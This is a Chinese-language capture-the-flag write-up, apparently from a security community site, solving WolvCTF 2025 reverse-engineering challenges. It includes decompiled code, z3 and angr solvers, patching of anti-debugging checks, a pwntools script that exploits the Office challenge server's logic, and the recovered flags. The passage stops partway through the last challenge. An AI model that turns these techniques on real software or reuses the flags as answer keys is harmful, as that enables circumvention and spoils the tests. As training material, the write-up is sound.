








# WolvCTF 2025 Re+取证 WP-先知社区

> **来源**: https://xz.aliyun.com/news/17474  
> **文章ID**: 17474

---

# WolvCTF 2025

## AngerIssues

> Man... This is pissing me off. I can't get it to work. Maybe if I configure it better...

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  printf("Enter the secret string: ");
  fgets(input, 60, stdin);
  checks(input);
  puts("Yay! You did it!");
  return 0;
}
__int64 __fastcall checks(__int64 a1)
{
  base(a1);
  func0(a1);
  func1(a1);
  func2(a1);
  func3(a1);
  ...//中间太长省略
  return func239(a1);
}
__int64 __fastcall base(unsigned __int8 *a1)
{
  __int64 result; // rax

  if ( *a1 != 119 || a1[1] != 99 || a1[2] != 116 || a1[3] != 102 || (result = *a1, a1[42] != (_BYTE)result) )
    errorFunc();
  return result;
}
__int64 __fastcall func0(__int64 a1)
{
  __int64 result; // rax

  result = (unsigned int)*(char *)(a1 + 12);
  if ( (_DWORD)result != *(char *)(a1 + 24) + 39 )
    errorFunc();
  return result;
}
```

题目很明显想让我们用angr，但我没整直接搓了个idapython正则匹配里面所有的func函数，并提取等式后面用z3求解

```
import re
import idaapi
import idautils
import ida_hexrays
import idc

pattern = re.compile(
    r"\*\(char\s*\*\)\(a1\s*\+\s*(\d+)\)[\s\S]*?"
    r"\*\(char\s*\*\)\(a1\s*\+\s*(\d+)\)\s*([-+])\s*(\d+)"
)

for func_ea in idautils.Functions():
    func_name = idc.get_func_name(func_ea)
    if not re.match(r"func\d+", func_name):
        continue

    try:
        cfunc = ida_hexrays.decompile(func_ea)
    except ida_hexrays.DecompilationFailure:
        print("反编译失败：", func_name)
        continue

    c_text = str(cfunc)
    m = pattern.search(c_text)
    if m:
        offset1 = m.group(1)
        offset2 = m.group(2)
        op = m.group(3)
        const_val = m.group(4)
        print(f"s.add(a[{offset1}] == a[{offset2}] {op} {const_val})")
```

打印出来了就上z3（这不比angr求解快？）

```
from z3 import *

s = Solver()
a = [BitVec(f"a{i}", 8) for i in range(60)]
s.add(a[12] == a[24] + 39)
s.add(a[1] == a[32] + 50)
s.add(a[38] == a[58] - 4)
s.add(a[40] == a[44] - 32)
s.add(a[9] == a[14] - 5)
s.add(a[12] == a[29] + 26)
s.add(a[46] == a[35] + 52)
s.add(a[26] == a[2] - 14)
s.add(a[15] == a[31] - 9)
s.add(a[39] == a[20] - 47)
s.add(a[29] == a[44] - 22)
s.add(a[43] == a[55] - 29)
s.add(a[54] == a[11] + 22)
s.add(a[47] == a[14] - 22)
s.add(a[55] == a[12] - 44)
s.add(a[7] == a[34] + 9)
s.add(a[23] == a[40] - 14)
s.add(a[1] == a[4] - 24)
s.add(a[54] == a[13] + 69)
s.add(a[17] == a[5] + 4)
s.add(a[30] == a[26] + 14)
s.add(a[52] == a[48] - 3)
s.add(a[16] == a[4] - 6)
s.add(a[26] == a[9] - 10)
s.add(a[53] == a[24] + 18)
s.add(a[33] == a[18] + 2)
s.add(a[29] == a[14] - 22)
s.add(a[23] == a[5] + 22)
s.add(a[23] == a[40] - 14)
s.add(a[31] == a[26] + 2)
s.add(a[12] == a[19] + 21)
s.add(a[21] == a[8] + 17)
s.add(a[6] == a[58] - 30)
s.add(a[17] == a[27] + 5)
s.add(a[43] == a[51] - 49)
s.add(a[25] == a[8] + 47)
s.add(a[26] == a[10] + 51)
s.add(a[26] == a[30] - 14)
s.add(a[57] == a[30] + 5)
s.add(a[45] == a[11] - 19)
s.add(a[23] == a[34] - 24)
s.add(a[6] == a[56] + 18)
s.add(a[21] == a[20] - 30)
s.add(a[15] == a[28] - 19)
s.add(a[37] == a[4] - 28)
s.add(a[52] == a[2] - 21)
s.add(a[49] == a[25] - 44)
s.add(a[53] == a[22] + 22)
s.add(a[16] == a[38] - 4)
s.add(a[41] == a[23] + 24)
s.add(a[17] == a[50] - 42)
s.add(a[23] == a[4] - 52)
s.add(a[4] == a[18] + 72)
s.add(a[4] == a[23] + 52)
s.add(a[20] == a[1] - 4)
s.add(a[10] == a[17] - 2)
s.add(a[20] == a[8] + 47)
s.add(a[10] == a[17] - 2)
s.add(a[8] == a[15] - 47)
s.add(a[5] == a[2] - 67)
s.add(a[10] == a[23] - 20)
s.add(a[11] == a[22] + 17)
s.add(a[13] == a[16] - 69)
s.add(a[24] == a[11] - 13)
s.add(a[12] == a[5] + 72)
s.add(a[3] == a[17] + 49)
s.add(a[19] == a[15] + 5)
s.add(a[22] == a[9] - 34)
s.add(a[5] == a[24] - 33)
s.add(a[12] == a[9] + 9)
s.add(a[13] == a[21] - 17)
s.add(a[11] == a[18] + 44)
s.add(a[18] == a[1] - 48)
s.add(a[30] == a[20] + 21)
s.add(a[32] == a[8] + 1)
s.add(a[32] == a[33] - 4)
s.add(a[23] == a[35] + 23)
s.add(a[26] == a[30] - 14)
s.add(a[26] == a[21] + 37)
s.add(a[26] == a[8] + 54)
s.add(a[2] == a[20] + 21)
s.add(a[9] == a[22] + 34)
s.add(a[24] == a[34] - 13)
s.add(a[28] == a[12] - 7)
s.add(a[11] == a[12] - 26)
s.add(a[33] == a[35] + 5)
s.add(a[27] == a[20] - 47)
s.add(a[14] == a[5] + 68)
s.add(a[14] == a[3] + 15)
s.add(a[8] == a[6] - 47)
s.add(a[2] == a[10] + 65)
s.add(a[19] == a[10] + 49)
s.add(a[6] == a[18] + 44)
s.add(a[10] == a[17] - 2)
s.add(a[33] == a[25] - 42)
s.add(a[25] == a[28] - 19)
s.add(a[35] == a[36] - 66)
s.add(a[6] == a[27] + 47)
s.add(a[35] == a[19] - 52)
s.add(a[29] == a[7] - 9)
s.add(a[13] == a[14] - 69)
s.add(a[5] == a[31] - 55)
s.add(a[22] == a[4] - 45)
s.add(a[16] == a[23] + 46)
s.add(a[4] == a[33] + 70)
s.add(a[29] == a[14] - 22)
s.add(a[8] == a[9] - 64)
s.add(a[0] == 119)
s.add(a[1] == 99)
s.add(a[2] == 116)
s.add(a[3] == 102)
s.add(a[0] == a[42])
if s.check() == sat:
    ans = s.model()
    for i in a:
        print(chr(ans[i].as_long()), end="")
```

正确预期解法是利用angr，脚本如下

```
import angr
import claripy
import sys

p=angr.Project('./original')
chars=[claripy.BVS(f'flag_{i}',8) for i in range(60)]
flag=claripy.Concat(*chars+ [claripy.BVV(b'
',8)])
state=p.factory.entry_state(stdin=flag)
simgr=p.factory.simulation_manager(state)
succ_addr=0x40439F
err_addr=0x4011B1 
simgr.explore(find=succ_addr,avoid=err_addr)
if simgr.found:
    sol_state=simgr.found[0]
    sol=sol_state.posix.dumps(0)
    print('WE GAMING')
    print(sol.decode())
```

wctf{1\_h0p3\_y0u\_u53d\_ANGR\_f0r\_th15\_0r\_y0U\_w0uLd\_b3\_a\_duMMy}

## CrackMeEXE

> A small file with a simple premise. Surely there is nothing suspicious about it, right?
>
> Note: Depending on antivirus/EDR software you use, you may need to setup an exclusion for the executable.

首先upx3.9以上脱壳下，然后ida分析发现多处反调试可以改成强制跳转再patch下，如下图



patch完发现v16是关键check函数

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  HMODULE ModuleHandleA; // rax
  HMODULE v4; // rbx
  HANDLE (__stdcall *OpenProcess)(DWORD, BOOL, DWORD); // rsi
  BOOL (__stdcall *VirtualProtectEx)(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD); // r15
  BOOL (__stdcall *WriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T *); // r12
  LPVOID (__stdcall *VirtualAllocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD); // rbp
  BOOL (__stdcall *IsDebuggerPresent)(); // rdi
  BOOL (__stdcall *CheckRemoteDebuggerPresent)(HANDLE, PBOOL); // r14
  DWORD (__stdcall *GetCurrentProcessId)(); // rax
  __int64 (*v12)(void); // rbx
  unsigned int v13; // eax
  __int64 v14; // rax
  __int64 v15; // rsi
  __int64 (__fastcall *v16)(char *); // rbp
  unsigned int v18; // edi
  _BYTE *v19; // rbx
  FILE *v20; // rax
  size_t v21; // rax
  int v22; // eax
  const char *v23; // rcx
  int v24; // [rsp+30h] [rbp-48h] BYREF
  _BYTE v25[8]; // [rsp+38h] [rbp-40h] BYREF
  char Buffer[16]; // [rsp+40h] [rbp-38h] BYREF
  int v27; // [rsp+50h] [rbp-28h]

  ModuleHandleA = GetModuleHandleA("kernel32.dll");
  v4 = ModuleHandleA;
  if ( !ModuleHandleA )
    return -1;
  OpenProcess = (HANDLE (__stdcall *)(DWORD, BOOL, DWORD))GetProcAddress(ModuleHandleA, "OpenProcess");
  VirtualProtectEx = (BOOL (__stdcall *)(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD))GetProcAddress(v4, "VirtualProtectEx");
  WriteProcessMemory = (BOOL (__stdcall *)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T *))GetProcAddress(
                                                                                        v4,
                                                                                        "WriteProcessMemory");
  VirtualAllocEx = (LPVOID (__stdcall *)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(v4, "VirtualAllocEx");
  IsDebuggerPresent = (BOOL (__stdcall *)())GetProcAddress(v4, "IsDebuggerPresent");
  CheckRemoteDebuggerPresent = (BOOL (__stdcall *)(HANDLE, PBOOL))GetProcAddress(v4, "CheckRemoteDebuggerPresent");
  GetCurrentProcessId = (DWORD (__stdcall *)())GetProcAddress(v4, "GetCurrentProcessId");
  v12 = (__int64 (*)(void))GetCurrentProcessId;
  if ( !OpenProcess )
    return -1;
  if ( !VirtualProtectEx )
    return -1;
  if ( !WriteProcessMemory )
    return -1;
  if ( !VirtualAllocEx )
    return -1;
  if ( !IsDebuggerPresent )
    return -1;
  if ( !CheckRemoteDebuggerPresent )
    return -1;
  if ( !GetCurrentProcessId )
    return -1;
  IsDebuggerPresent();
  v13 = v12();
  v14 = ((__int64 (__fastcall *)(__int64, _QWORD, _QWORD))OpenProcess)(0x1FFFFFLL, 0LL, v13);
  v15 = v14;
  if ( !v14 )
    return -1;
  v16 = (__int64 (__fastcall *)(char *))((__int64 (__fastcall *)(__int64, _QWORD, __int64, __int64, int))VirtualAllocEx)(
                                          v14,
                                          0LL,
                                          139LL,
                                          12288LL,
                                          4);
  if ( !v16 )
    return -2;
  srand(0x3419u);
  v18 = 0;
  v19 = &unk_140005080;
  do
  {
    *v19 ^= rand();
    ++v18;
    ++v19;
  }
  while ( v18 < 0x8B );
  if ( !((unsigned int (__fastcall *)(__int64, __int64 (__fastcall *)(char *), void *, __int64, _BYTE *))WriteProcessMemory)(
          v15,
          v16,
          &unk_140005080,
          139LL,
          v25) )
    return -3;
  if ( !((unsigned int (__fastcall *)(__int64, __int64 (__fastcall *)(char *), __int64))VirtualProtectEx)(
          v15,
          v16,
          139LL) )
    return -4;
  puts("What is the password?
");
  ((void (__fastcall *)(__int64, int *))CheckRemoteDebuggerPresent)(v15, &v24);
  v27 = 0;
  *(_OWORD *)Buffer = 0LL;
  v20 = _acrt_iob_func(0);
  fgets(Buffer, 19, v20);
  v21 = strcspn(Buffer, "
");
  if ( v21 >= 0x14 )
    _report_rangecheckfailure();
  Buffer[v21] = 0;
  v22 = v16(Buffer);
  v23 = "
CORRECT!";
  if ( v22 )
    v23 = "
What? no...";
  puts(v23);
  return 0;
}
```

上动调，进入v16后函数如下，很简单的循环异或，key为`flag`

```
__int64 __fastcall sub_1E330D50000(__int64 a1)
{
  __int64 i; // r10
  __int64 v3; // rdi
  _QWORD v4[4]; // [rsp-28h] [rbp-28h] BYREF
  __int64 v5; // [rsp-8h] [rbp-8h] BYREF

  for ( i = 0LL; *(_BYTE *)(a1 + i); ++i )
    ;
  if ( i != 18 )
    return 1LL;
  v5 = 1734437990LL;
  v4[3] = &v5;
  v4[2] = 4441LL;
  v4[1] = 0x1352353903521556LL;
  v4[0] = 0x90F2D1D01150F11LL;
  v3 = 0LL;
  while ( i )
  {
    v3 += *((_BYTE *)v4 + i - 1) != (unsigned __int8)(*((_BYTE *)&v5 + (i - 1) % 4uLL) ^ *(_BYTE *)(a1 + i - 1));
    --i;
  }
  return v3;
}
```

求解

```
s = [0x11, 0x0F, 0x15, 0x01, 0x1D, 0x2D, 0x0F, 0x09, 0x56, 0x15, 0x52, 0x03, 0x39, 0x35, 0x52, 0x13, 0x59, 0x11]
xor = b"flag"
for i in range(len(s)):
    print(chr(s[i]^xor[i%4]),end="")
```

wctf{Ann0y3d\_Y3t?}

## Office

> Wikipedia says that XOR preserves randomness so you'll never get this one.
>
> nc office.kctf-453514-codelab.kctf.cloud 1337

主函数，菜单三个选项，发现生成一个随机数

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  char s[3]; // [rsp+1h] [rbp-Fh] BYREF
  int v4; // [rsp+4h] [rbp-Ch]
  FILE *stream; // [rsp+8h] [rbp-8h]

  sub_40149A(a1, a2, a3);// sleep
  stream = fopen("/dev/urandom", "r");
  if ( !stream )
  {
    puts("Cannot open /dev/urandom");
    exit(1);
  }
  fread(&byte_4040A9, 1uLL, 1uLL, stream);
  fclose(stream);
  rand = byte_4040A9;
  while ( 1 )
  {
    do
    {
      sub_4012E1();// 菜单
      fgets(s, 3, stdin);
      *__errno_location() = 0;
      v4 = strtol(s, 0LL, 10);
    }
    while ( *__errno_location() );
    if ( v4 == 3 )
      sub_4013E3();
    if ( v4 > 3 )
      break;
    if ( v4 == 1 )
    {
      sub_4011C6();
    }
    else
    {
      if ( v4 != 2 )
        break;
      raise();
    }
LABEL_14:
    if ( balance <= 0 )
    {
      puts("You can't even spend money and yet you lost it all. You're fired.");
      exit(0);
    }
  }
  printf("choice: %d
", v4);
  goto LABEL_14;
}
```

选项1，发现对rand值进行了与运算检查，同时balance+=salary，然后rand值异或balance的最后1字节

```
__int64 sub_4011C6()
{
  __int64 result; // rax

  if ( ((unsigned __int8)rand & (unsigned __int8)byte_404088) != 0 )
    puts("You forget to put the cover sheet on your TPS report");
  if ( ((unsigned __int8)rand & (unsigned __int8)byte_404089) != 0 )
    puts("You have a meeting with a consultant");
  if ( ((unsigned __int8)rand & (unsigned __int8)byte_40408A) != 0 )
    puts("The printer jams");
  if ( ((unsigned __int8)rand & (unsigned __int8)byte_40408B) != 0 )
    puts("Your boss tells you that you have to come in on Saturday");
  if ( ((unsigned __int8)rand & (unsigned __int8)byte_40408C) != 0 )
    puts("The fire alarm goes off");
  if ( ((unsigned __int8)rand & (unsigned __int8)byte_40408D) != 0 )
    puts("Your cowworker asks if you have seen his stapler");
  if ( ((unsigned __int8)rand & (unsigned __int8)byte_40408E) != 0 )
    puts("You think about quitting");
  printf("Time to clock out. You made $%d today
", sal);
  balance += sal;
  result = balance ^ (unsigned int)(unsigned __int8)rand;
  rand ^= balance;
  return result;
}
```

选项2，可以修改salary，但只能提高

```
int raise()
{
  int result; // eax
  char s[10]; // [rsp+Eh] [rbp-12h] BYREF
  __int64 v2; // [rsp+18h] [rbp-8h]

  puts("How much do you want to make per day?");
  printf("> ");
  fflush(stdout);
  fgets(s, 10, stdin);
  *__errno_location() = 0;
  v2 = strtol(s, 0LL, 10);
  if ( *__errno_location() || v2 < sal )
    return puts("Huh?");
  puts("Mmm yeah, ok");
  result = v2;
  sal = v2;
  return result;
}
```

选项3，关键读取flag函数，check要求257\*rand==balance，所以必须得知道随机数rand

```
void __noreturn sub_4013E3()
{
  char ptr[56]; // [rsp+0h] [rbp-40h] BYREF
  FILE *stream; // [rsp+38h] [rbp-8h]

  if ( 257 * (unsigned __int8)byte_4040A9 == balance )
  {
    stream = fopen("./flag.txt", "r");
    if ( !stream )
    {
      printf("Cannot open ./flag.txt");
      exit(1);
    }
    fread(ptr, 0x20uLL, 1uLL, stream);
    ptr[32] = 0;
    puts("You were actually nice to have around");
    puts("Here, take this parting gift:");
    puts(ptr);
    exit(0);
  }
  puts("Good riddance");
  exit(0);
}
```

最开始题目描述里的xor迷惑了我，以为得利用xor两次相同值恢复原始值，一直在尝试(256+1)^(512+1)这种思路，但发现后面加的salary太多了，257\*rand甚至比balance还小，不行

再往后发现rand与运算完全可以z3求解，多跑几轮（越大越好，经测试16基本就可以，只要rand值不是很小）往Solver里多加些关系等式，z3求出rand，然后2修改salary一次再直接1把balance提到257\*rand值

这里有一点是我以前没注意到，z3一个求解要求定义的变量后续不能随便修改，否则无法直接ans[rand]

ref：

<https://github.com/Z3Prover/z3/issues/542>

<https://github.com/Z3Prover/z3/issues/6450>

```
from pwn import *
from z3 import *

s = Solver()
rand = BitVec("rand", 9)
rand0 = rand    # 很重要
r = remote("office.kctf-453514-codelab.kctf.cloud", 1337)
sal = 10
data = r.recvuntil(b"> ").decode()

for i in range(16):
    r.sendline(b"2")
    r.recvuntil(b"> ")
    sal += 1
    r.sendline(str(sal).encode())
    r.recvuntil(b"> ")
    r.sendline(b"1")
    data = r.recvuntil(b"> ").decode()
    data = data.split("
")
    balance = int(data[-5].split('$')[-1])
    if "You forget to put the cover sheet on your TPS report" not in data:
        s.add(rand0&0xa==0)
    if "You have a meeting with a consultant" not in data:
        s.add(rand0&0x16==0)
    if "The printer jams" not in data:
        s.add(rand0&0x18==0)
    if "Your boss tells you that you have to come in on Saturday" not in data:
        s.add(rand0&0x28==0)
    if "The fire alarm goes off" not in data:
        s.add(rand0&0xa8==0)
    if "Your cowworker asks if you have seen his stapler" not in data:
        s.add(rand0&0x60==0)
    if "You think about quitting" not in data:
        s.add(rand0&0x1==0)
    rand0 ^= balance&0xff

if s.check() == sat:
    ans = s.model()
    print(ans)
    r.sendline(b"2")
    r.recvuntil(b"> ")
    r.sendline(str(ans[rand].as_long()*257-balance).encode())
    r.recvuntil(b"> ")
    r.sendline(b"1")
    r.recvuntil(b"> ")
    r.sendline(b"3")
    data = r.recv().decode()
    print(data)
```



## Irregularity

赛后和p3师傅研究一晚上用<https://regex101.com/在线分析正则才做出来>

```
// im so sorry
let r = /^wctf{(((?=(.{5}4))(((?=(.{2}g.(l)))(r3)).(?<=(r)..)u\7)).\9).{12}(\x5f)(?<=(\1(?:\10)(?:((?=(.{2}p[^-]([^-])5))(3x)).((?=(.{2}(\x355)))(((?=(.3))r)))...3{0,0}))(\x31)(0)n5.)m\23{1,1}(?=.(..))\8_l(\22)k(?:\24)\25r(?=\11).{8}[\w\d]{7}i..s(?<=\23n.)_smh_((?=(.{6}(z)((?=(.{2}9))((?<=z)(?=........r)(?<=(K)....).(4)(?<=O.{5}(.).))).TC(?=.b)))(Q.\32(?=.{4}i).E(?=.{9}L)f)).{6}\28...(?<=...U.{12})}$/

let flag = 'xxx'

if (r.test(flag)) {
    console.log("yes");
}

```



wctf{r3gul4r\_3xpr35510n5\_m0r3\_l1k3\_1rr3gul4r\_3xpr355i0ns\_smh\_QOKUEfzi49TCzbLr}

前面还好，可以根据单词大概分析出来，到后面最后一串字符可恶心死我了，硬分析出了大部分位置，然后p3师傅爆破了下就出了

思路：不好描述，总结就是看分组分段，一段段去分析，+数字这种要去找前面的捕获组，(?=xx)匹配xx的前面，(?<=xx)匹配xx的后面，是占位符表示有一个字符

## CompactSubscription

才发现ida没有正确反编译，唉忘记看汇编了

题目给了个decoder可执行文件，以及message里面是

```
00f348f4f3
012d5ee7a9
020ff2cf9d
03cc39ef35
```

ida查看函数

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // gp
  int v4; // blink
  int v5; // r0
  int v6; // r1
  int v7; // r3
  int v8; // r4
  int v9; // r5
  int v10; // r6
  int v11; // r7
  int v12; // r0
  int v13; // r1
  int v15; // [sp-4h] [bp-Ch]
  int v16; // [sp+4h] [bp-4h] BYREF

  v16 = v4;
  while ( 1 )
  {
    puts("Do what?
1. Subscribe
2. Decode", argv, envp);
    v5 = fgets(&v16, 3, *(_DWORD *)(*(_DWORD *)(v3 - 252) + 4));
    if ( HIBYTE(v16) == '1' )
    {
      subscribe(v5, v6, '1', v7, v8, v9, v10, v11, v15);
      if ( v12 )
        puts("subscription complete", v13, v12);
      else
        puts("subscription failed", v13, 0);
    }
    else if ( HIBYTE(v16) == 50 )
    {
      decode(v5, v6, 50, v7, v8, v9, v10, v11, v15);
    }
    else
    {
      puts("That's not an option.", v6, HIBYTE(v16));
    }
  }
}
void __fastcall subscribe(int a1, int a2, int a3, int a4, int a5, int a6, int a7, int a8, int a9)
{
  int v9; // gp
  int v10; // blink
  unsigned int v11; // [sp+4h] [bp-44h]
  unsigned __int8 v12; // [sp+8h] [bp-40h] BYREF
  _BYTE v13[16]; // [sp+9h] [bp-3Fh] BYREF
  _BYTE v14[36]; // [sp+1Ch] [bp-2Ch] BYREF
  int *v15; // [sp+40h] [bp-8h]
  int i; // [sp+44h] [bp-4h]

  i = v10;
  v15 = &a9;
  puts("Subscription?", a2, a3);
  fgets((int)v14, 36, *(_DWORD *)(*(_DWORD *)(v9 - 252) + 4));
  hex_to_bytes(v14, &v12);
  LOBYTE(v15) = v12;
  memcpy(0xF0C8, v13, 16);
  for ( i = 0; i <= 3; ++i )
    *((_BYTE *)&v11 + i) = v13[4 * i + (unsigned __int8)v15];
  if ( (unsigned __int8)v15 <= 3u )
  {
